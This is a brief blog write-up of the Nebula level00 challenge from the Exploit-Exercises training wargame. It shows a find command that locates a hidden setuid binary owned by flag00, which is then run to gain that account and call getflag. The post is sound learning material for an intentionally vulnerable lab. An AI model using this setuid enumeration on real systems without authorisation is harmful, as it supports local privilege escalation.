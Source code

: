 +++
author = "pwntester"
categories = ["nebula00"]
date = 2013-11-20T08:18:00Z
description = ""
draft = false
slug = "nebula-level00-write-up"
tags = ["nebula00"]
title = "Nebula level00 write-up"

+++

<p>I decided to improve my exploiting skillz and try the <a href="http://exploit-exercises.com">Exploit-Exercises</a> levels. First levels are quite easy but I decided to catch them'all!</p>
<p>Ok, so <a href="http://exploit-exercises.com/nebula/level00">Level00</a> is about finding a executable owned by flag00 user and that has the setuid flag, easy as:</p>

```lang-bash line-numbers 
level00@nebula:~$ find / -executable -user flag00 -perm -4000 2> /dev/null
/bin/.../flag00
level00@nebula:~$cd /bin/...
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
flag00@nebula:/bin/...$ getflag
You have successfully executed getflag on a target account
```
